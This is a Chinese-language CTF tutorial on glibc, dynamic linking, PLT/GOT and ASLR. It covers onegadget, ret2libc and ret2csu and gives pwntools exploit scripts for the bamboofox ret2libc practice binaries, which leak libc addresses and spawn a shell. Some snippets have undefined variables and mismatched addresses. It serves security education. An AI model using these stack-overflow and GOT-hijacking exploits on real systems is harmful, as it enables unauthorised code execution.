

# libc

之前，我们在ROP题中提到静态链接。静态自然对应动态，两者分别是什么东西呢？

我们程序的不同函数之间相互调用，可能通过绝对或者相对地址来定位。比如说，写在同一个源代码文件里的两个C函数，一般相互调用时，比如a函数里call了b函数，最初编译可能就在程序里留一个call b，这里的b只是一个标号，因为可能还不知道b在哪儿。直到其他编译过程都处理完，整个程序的结构、各个函数的长度、位置和相对偏移位置都固定了，最后再在刚才留着函数标号的地方回填函数的地址或者相对偏移。事实上，这就是一种程序的链接过程，也是我们在C语言中学到的程序编译的“预处理-编译-链接”里的最后一步。

同样地，如果程序有多个源文件，那么最后也要经过多个编译好的目标文件之间的地址链接来将程序结合起来，使得他们之间可以相互知道各自的位置，用以相互调用。

而我们在学习C语言的时候，永远绕不开的是库函数调用。著名的`printf`系列函数更是初学者绕不开的重点。在调用这些函数的时候，我们有以下两种倾向：

* 真的将printf从stdio.h里取出来在我们的程序里编译一次，或者把编译好的指令拿过来，作为我们自己程序的一部分，随着程序一起发布。

* 既然这个函数这么常用，那么不如事先编译好，在每台电脑里跟随系统都装一份，在我们的代码要运行时从系统里调用出来，这样我们的程序只需要保留自己编写的部分，而不用附带系统函数的实现。

  

这两种方法分别就是静态链接和动态链接。前者在编译时做好了链接，运行时省去了链接等计算，效率可能更高，但会导致程序容量偏大；后者编译时不用链接库函数，程序量大大精简，但在运行时进行链接可能略微降低效率。我们的ROP大多数执行在静态链接的程序中，原因就是静态链接取出的库函数编译版本里含有大量指令，在不开启PIE时可以直接取用，含有完整gadget的概率很大。一旦程序采用动态链接，那么程序量会非常精简，有时甚至连syscall都找不到，直接执行ROP的难度比较高。

而在我们常用的linux中跟随系统发布的库函数动态链接文件(一般为.so后缀)，就是后面学pwn需要详细了解的glibc。

## glibc入门

glibc，全称GNU C library。我们在ubuntu程序中用gcc不加任何参数编译的程序大多数就是动态链接到系统的glibc来调用库函数的。在IDApro中左边栏中一大串粉色的函数名表说明存在动态链接。

glibc中含有很多的函数实现代码，在程序中我们只需要call相应的函数真实地址就能完成调用。但是，动态链接常常伴随一个很常用的保护手段，那就是我们永远绕不过的ASLR（Address space layout randomization，地址空间布局随机化）。简单来说，这是个类似于附加在libc上的PIE：整个libc的数据和代码段都会加上一个基地址，这个基地址往往附带一个随机的偏移量，每次运行时都不同。例如，本次运行时程序的libc基地址为0x7ffff7dc3000，gets函数在libc中的地址为0x86af0，那么gets函数在本次运行中的真实地址就是两者相加得到的0x7ffff7e49af0。和PIE不同的是，ASLR是一个系统功能，而PIE是程序自身的选项。

同时，glibc也有一些特殊性质。由于glibc是跟随系统发布的，同一版本的glibc在两台设备上应该是完全相同的。所以，里面各个函数、符号之间的相对偏移位置是固定的。比如，printf的地址在0x64e10，gets在0x86af0，那么不管基地址是多少，gets的实际位置都应该在printf的+(0x86af0-0x64e10)处；事实上背后原理更简单，只要我们确定了一个函数的实际位置，那么就能结合同版本glibc的本地文件确定本次程序的glibc的基地址，从而确定所有glibc中所有函数和符号的实际位置。

第二点，在64位程序下，段地址分配是以0x1000为一页作为单位的，因此基地址16进制的后三位总为0，导致同一个函数实际地址16进制的后三位不管如何随机化，总是相同的。然而大量的库函数通过自动化的脚本编译链接而成，glibc版本迭代时的代码修改导致不同版本的不同函数的相对偏移差别很大。举例来说，我们多次运行某程序，得到其gets的后三位总为0xaf0，printf的后三位总为0xe10，或者还有其他函数的信息，用这些信息我们就可以通过一些数据库筛选出一些版本的glibc，最终确定本程序运行时使用的版本。

## 动态链接的实现

之前讲过静态链接和动态链接的概念，这里讲一下动态链接的实现。

首先需要普及两个段的概念：PLT、GOT。这两个段都在我们自己编译的可执行程序里。

PLT（程序连接表，Procedure Link Table）是个代码段，里面为每个可执行程序的库函数写了一小段代码，代码内容是跳转到库函数的真实地址。程序在编译时，会讲我们代码中调用到的所有库函数统计一次，制作一张PLT表。

GOT（全局偏移表，Global Offset Table）是个数据段，可以看成一个存了许多函数指针的数组，这些函数指针对应了程序里调用的每个库函数在glibc里的真实地址。GOT表中的每一项对应PLT表中的每一项。

那么这两个段在动态链接中有什么作用呢？

事实上，我们的程序编译完的时候并不知道库函数的真实地址，所以程序中的代码在调用库函数的时候，调用的是其plt表地址。例如，我们在动态链接的程序中调用gets，那么编译完的程序中的代码其实是：

```assembly
call gets@PLT
```

PLT则是一个代码段，通过查找GOT数组表里的值来最终跳转到库函数的真实地址。下面是不太严格的伪代码。

```assembly
gets@PLT：
		jmp GOT[gets]   ;相当于把got表看成一个函数指针数组，跳转到数组中存放的gets的真实地址
		...
```



另外还需要讲解一下延迟绑定机制。程序刚开始运行的时候，自己也是不知道库函数的真实地址的，所以GOT表一开始存放的不是库函数的真实地址，而是一个查找函数的地址。因此第一次调用这个库函数的时候，事实上会先跳转到这个查找函数，找到这个库函数的真实地址，然后再写入GOT表中。以后再调用这个库函数的时候，才会通过GOT表直接跳转到库函数的真实地址。

那么如何利用这些性质呢？

* 首先，不管是第一次还是之后，只要跳转到函数的PLT表地址，一定是可以完成这个函数调用的；而且这个PLT表地址是在可执行文件中的，不需要泄漏libc。

* GOT表是数据段，有时是用户可读写的。因此，如果篡改GOT表，变成我们希望执行的代码地址，那么就能使得程序执行我们希望执行的函数。例如：

  ```c
  char a[100];
  gets(a);
  int b=atoi(a);
  ```

  上述程序是一个将字符串转换为数字的片段。但如果我们将atoi的got表篡改为system在libc中的实际地址，那么第三行实际上就会变成`int b=system(a);`，此时，我们如果在第二行的输入中输入`'/bin/sh'`，那么就能getshell。同理，我们将atoi的got表篡改成shellcode的地址，有时也可以get shell；

  改成onegadget（后面会提到），就能直接getshell；

  改成main函数的地址，就能循环执行这个程序，方便我们进行更多的篡改劫持工作；

  放开思路，将atoi的got改成某个函数的plt地址，也能完成对这个函数的调用。

  不管怎样，只需要将got表改成一个可执行地址，那么就能执行相应的代码。

* 对于一个已经调用过一次的库函数，如果我们有办法将其got表项用某种方式打印出来，那么就泄漏了本次运行中这次库函数在libc的真实地址，继而可以计算得到libc基地址，泄露整个libc。注意一定要已经调用过。

## 工具使用

* readelf

  这个工具用以列举程序中的符号表，常常用来寻找动态链接库中的函数地址，一般linux自带。

  用法：

  ```shell
  readelf -s filename.so
  ```

  用于列出程序中所有的符号和地址。

  常常在后面用管道符和grep来搜索函数：

  ```shell
  readelf -s filename.so | grep gets
  ```

  寻找结果中带gets的内容。

* glibc-all-in-one

  这是一个常用的glibc下载工具

  ```shell
  git clone https://github.com/matrix1001/glibc-all-in-one.git
  cd glibc-all-in-one
  ./update_list
  ```

  上面几步用于安装和更新已经发布的glibc

  ```shell
  cat list(或者old_list)
  ```

  查看可下载的glibc版本

  ```shell
  ./download 2.23-0ubuntu10_amd64
  ```

  下载某个版本的glibc。旧版本可以用download_old，下载好的文件存放在libs文件夹中。

* patchelf

  这个程序用于替换程序运行需要的glibc版本。一般需要替换两个，一个是libc的so文件本身，另一个则是链接程序ld。

  ```shell
  patchelf filename --print-needed
  ```

  打印程序运行需要的动态库，其中一般包含glibc，显示为libc.so.6

  ```shell
  patchelf filename --replace-needed libc.so.6 /path/to/your/glibc/libc.so.6
  ```

  将上一步搜索出的条目替换成自己下载的so文件

  ```shell
  patchelf filename --set-interpreter /patch/to/your/glibc/ld.so.6
  ```

  替换程序使用的ld程序

  一般，ld程序和so动态库需要保持版本相同，否则可能导致崩溃。

  

* ldd

  linux自带指令，用于查看程序运行需要的动态库的具体位置，常用于验证patchelf是否成功。

  ```shell
  ldd filename
  ```

* file

  linux自带指令，用于查看程序信息，比如位数、大小端、是否静态链接等等。

  ```shell
  file filename
  ```

  

* libcdb

  ```shell
  https://github.com/blukat29/search-libc
  ```

  

  在线工具，也可以下载后本地搭建。内含存储大量glibc版本的数据库，自带偏移量筛选工具，可以指定一些函数符号最后三位来筛选出符合的版本进行本地搭建。

## 利用思路

这里只讲一些简单的。

一般情况下，我们需要一个大前提，就是知道本次程序运行的libc基地址。只需要我们泄漏得到某个函数的真实地址，结合这个版本的libc本地文件，就能相减得到基地址，从而确定其他库函数的地址。其他就是各种劫持控制流的手段。

### onegadget

最简单的利用方式，在许多版本的glibc中，只需要从代码段的某些地址开始运行，就能一路达成`execve("/bin/sh",0,0)`的效果，但是可能需要满足某些条件，比如最开始栈上某个位置为0等等。这种地址被称作onegadget，可以用onegadget工具指定glibc文件进行搜索。

安装：

```shell
sudo apt -y install ruby
sudo gem install one_gadget
```

使用：

```shell
$ one_gadget libc.so.6
```

效果：

```shell
0x45216 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4526a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0274 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1117 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

```

这时，只要在程序中随便跳转到上面任何一个满足constraints的实际地址，就能触发onegadget。

### ret2libc

计算得到基地址后我们就确定了整个libc库的所有函数本次运行的真实地址。一般最有用的是system函数，它只有一个参数就是文件名。只要运行`system("/bin/sh")`就能在底层调用`execve`，从从而运行shell。我们的工作是将`"/bin/sh"`的地址传进第一个参数里，32位下可能是调整栈布局，而64位则是设置寄存器。

另外，知道libc基地址后，还有很多函数可以用，比如用gets来输入一串文字、mprotect来设置某些空间的读写执行权限等等，劫持控制流后都可以按需求来构造调用。

### ret2csu

这是glibc下一个特殊的方法。在glibc的许多版本中，有一个叫做`__libc_csu_init`的代码段，形式如下：

```assembly
.text:00000000004005C0 ; void _libc_csu_init(void)
.text:00000000004005C0                 public __libc_csu_init
.text:00000000004005C0 __libc_csu_init proc near               ; DATA XREF: _start+16o
.text:00000000004005C0                 push    r15
.text:00000000004005C2                 push    r14
.text:00000000004005C4                 mov     r15d, edi
.text:00000000004005C7                 push    r13
.text:00000000004005C9                 push    r12
.text:00000000004005CB                 lea     r12, __frame_dummy_init_array_entry
.text:00000000004005D2                 push    rbp
.text:00000000004005D3                 lea     rbp, __do_global_dtors_aux_fini_array_entry
.text:00000000004005DA                 push    rbx
.text:00000000004005DB                 mov     r14, rsi
.text:00000000004005DE                 mov     r13, rdx
.text:00000000004005E1                 sub     rbp, r12
.text:00000000004005E4                 sub     rsp, 8
.text:00000000004005E8                 sar     rbp, 3
.text:00000000004005EC                 call    _init_proc
.text:00000000004005F1                 test    rbp, rbp
.text:00000000004005F4                 jz      short loc_400616
.text:00000000004005F6                 xor     ebx, ebx
.text:00000000004005F8                 nop     dword ptr [rax+rax+00000000h]
.text:0000000000400600
.text:0000000000400600 loc_400600:                             ; CODE XREF: __libc_csu_init+54j
.text:0000000000400600                 mov     rdx, r13
.text:0000000000400603                 mov     rsi, r14
.text:0000000000400606                 mov     edi, r15d
.text:0000000000400609                 call    qword ptr [r12+rbx*8]
.text:000000000040060D                 add     rbx, 1
.text:0000000000400611                 cmp     rbx, rbp
.text:0000000000400614                 jnz     short loc_400600
.text:0000000000400616
.text:0000000000400616 loc_400616:                             ; CODE XREF: __libc_csu_init+34j
.text:0000000000400616                 add     rsp, 8
.text:000000000040061A                 pop     rbx
.text:000000000040061B                 pop     rbp
.text:000000000040061C                 pop     r12
.text:000000000040061E                 pop     r13
.text:0000000000400620                 pop     r14
.text:0000000000400622                 pop     r15
.text:0000000000400624                 retn
.text:0000000000400624 __libc_csu_init endp
```

通过段代码中的gadget，我们可以设置很多rop中需要用到的寄存器和64位函数调用传参数用的寄存器并return，以此来配合ret2libc传参数或者直接rop。

## 实践

### libc相关

例1.直接调用PLT

来自bamboofox 中 ret2libc1。查看保护：

```shell
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

在IDA中反汇编，发现简单的栈溢出：

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int v4; // [sp+1Ch] [bp-64h]@1
  setvbuf(stdout, 0, 2, 0);
  setvbuf(_bss_start, 0, 1, 0);
  puts("RET2LIBC >_<");
  gets((char *)&v4);
  return 0;
}
```

因此，我们直接修改main的返回地址。返回到哪里呢？我们可以查找发现plt表中有system函数的调用，那么我们可以直接return到那里去。另外，我们还查到程序中含有`'/bin/sh'`字符串。

```shell
.plt:08048460 ; [00000006 BYTES: COLLAPSED FUNCTION _system. PRESS CTRL-NUMPAD+ TO EXPAND]
0x08048720 : /bin/sh
```

这里需要注意的是，我们是通过ret回到system的，没有指定参数。而我们的预想是，执行的效果和call system的效果一样，并且希望函数的第一个参数是字符串地址。程序是32位的，函数参数通过栈压入，因此正常调用call system之后，栈上由高到低依次是：/bin/sh的地址、call压入的返回地址。我们也应该这样伪造，使得main函数ret后和预想中执行了`system("/bin/sh");`的栈布局一样，所以最终的payload为：

```python
padding=b'#'*0x70
ret_addr=b'#'*4
system_plt=0x08048460
sh_str=0x08048720
payload=padding+p32(system_addr)+ret_addr+p32(sh_str)
```

例2.和上面的程序相同，但是不包含/bin/sh，程序中可以找到gets的plt。

于是，我们需要调用两个函数，首先是gets，从键盘读入/bin/sh，然后再执行system。连续调用两个函数并设置参数，需要将栈上的内容清空，具体可以查看我们的构造方法。

```python
padding=b'#'*0x70
ret_addr=b'#'*4
system_plt=0x08048460
gets_plt = 0x08048460
bss=0x804a080 #在bss段上随便找一个地址，用来输入我们想要的字符串
pop_ebx_ret=0x0804843d #ropgadget找到的一个小片段，用来清空栈上残留

payload=padding+p32(gets_plt)+pop_ebx_ret+p32(bss)+p32(system_addr)+ret_addr+p32(bss)
```

首先，类似于上面的配置，我们返回到了gets，参数为bss段上的一个地址，从键盘输入`/bin/sh`后，gets结束，返回地址为pop_ebx_ret，这时栈顶是gets的参数，我们用了pop使得它出栈，将栈上的参数作了清理，然后执行ret，此时栈顶是system的地址，所以又是类似第一次的配置，完成调用。

例3.同之前的程序，这次在plt表中找不到system了，但是有gets和puts。

既然用不了system的plt地址，那么我们就需要获得它在libc中的真实地址，这里我们就需要泄漏了。

而且，payload肯定需要发送两次，因为第一次的时候我们是不知道libc的真实地址的，所以第一次的发送用来泄漏，第二次才是真实的利用。这里就可能需要ret回main函数来循环调用程序了。同样地，我们需要知道程序用的libc版本，这里就需要用libcdb等工具进行筛选了。

最后，大多数版本的libc中，都是有`'/bin/sh'`字符串的，如果泄漏libc基地址后就可以使用了。

获取libc版本：

```python
e=ELF('ret2libc3')
p=process('ret2libc3')
puts_plt=e.plt['puts']
gets_got=e.got['gets']
printf_got=e.got['printf']
...

padding=b'#'*0x70
ret_addr=b'#'*4

payload=padding+retaddr+p32(puts_plt)+p32(_______got)#多次运行脚本，最后一项填入gets、printf等已经执行过的函数的got表地址来泄漏，取十六进制最后三位，去libcdb上查询，找到后下载so文件或者符号表。
p.send(payload)
```

exp:

```python
from pwn import *
e=ELF('ret2libc3')
libc=ELF('libc.so.6')
p=process('ret2libc3')

puts_plt=e.plt['puts']
gets_got=e.got['gets']
main = e.symbols['main']
fake_ret_addr=b'#'*4

p.recv()
payload=b'#'*0x70+p32(puts_plt)+p32(main_addr)+p32(gets_got)
p.send(payload)

gets_libc=u32(p.recv()[0:4])
libc_base=gets_libc-libc.symbols['gets']
print('libc_base='+hex(libc_base))
system_libc=libc.symbols['system']+libc_base
sh_str=next(libc.search(b'/bin/sh'))+libc_base

#这里puts执行后，返回地址为main函数，第二次执行main里的gets。这里我们不用管前面的栈布局了，就当成新一次的main函数上的栈溢出漏洞就行

payload=b'#'*0x68+p32(system_libc)+fake_ret_addr+p32(sh_str)#0x68是动态调试得到的填充长度
p.send(payload)
p.interactive()

```


